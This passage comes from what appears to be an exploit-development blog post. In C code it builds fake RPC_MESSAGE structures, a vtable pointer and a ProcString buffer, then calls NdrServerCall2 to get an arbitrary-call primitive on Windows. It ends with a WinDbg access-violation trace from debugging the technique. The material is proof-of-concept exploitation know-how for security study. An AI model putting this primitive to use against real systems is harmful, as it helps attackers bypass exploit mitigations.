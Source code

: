 We can provide up to six arguments, but in this PoC only the first one is relevant. The `RPC_MESSAGE` also points to a `vptr`:

```c
// vptr - offset 0x860
index = 0x10c;
rpcStructs[index] = (LONGLONG)rpcLib + 0xe2208;	index += 1;								// 0x00 - vftable address;
rpcStructs[index] = 0x0000004089abcdef;													// stops the exception after the call
```

The two `DWORD` fields directly after the `vftable` pointer is essential to stop the application crashing following the RPC. This was discovered by OffSec and will not be discussed here.

The `ProcString` buffer is also discussed in the AWE course and will not be discussed here. Here is the code:

```c
// format (ProcString) string - offset 0x900
index = 0x120;
rpcStructs[index] = (LONGLONG)0x0000000000004832; index += 1;
rpcStructs[index] = (LONGLONG)0x0744001000600083; index += 1;
rpcStructs[index] = (LONGLONG)0x000000000000010a; index += 1;
rpcStructs[index] = (LONGLONG)0x000b000000480000; index += 1;
rpcStructs[index] = (LONGLONG)0x0048000b00080048; index += 1;
rpcStructs[index] = (LONGLONG)0x00180048000b0010; index += 1;
rpcStructs[index] = (LONGLONG)0x000b00200048000b; index += 1;
rpcStructs[index] = (LONGLONG)0x0070000b00280048; index += 1;
rpcStructs[index] = (LONGLONG)0x00001000000b0078;
```

Bringing it all together we make the `NdrServerCall2` call and display the returned result:

```c
NdrServerCall2((PRPC_MESSAGE)buffer);
printf("[+] Call completed!\n");

// in an exploit an arbitrary read would be used
printf("[+] Return value: 0x%p\n", *(LONGLONG*)rpcStructs[2]);
```

Notice that the return value is written to the `ArgumentsBuffer` field in the `RPC_MESSAGE` structure.

## Fail

When running my code I found that it failed me!

This threw me for quite a while so I decided to go into Binary Ninja and WinDbg to find out why it was crashing. Within `HeapAlloc` there was an access violation:

```
(4dc.2bdc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
ntdll!RtlAllocateHeap+0x20:
00007ffa bec508e0 817b10eeddeedd  cmp     dword ptr [rbx+10h],0DDEEDDEEh ds:00000000'®0000010=????????
```
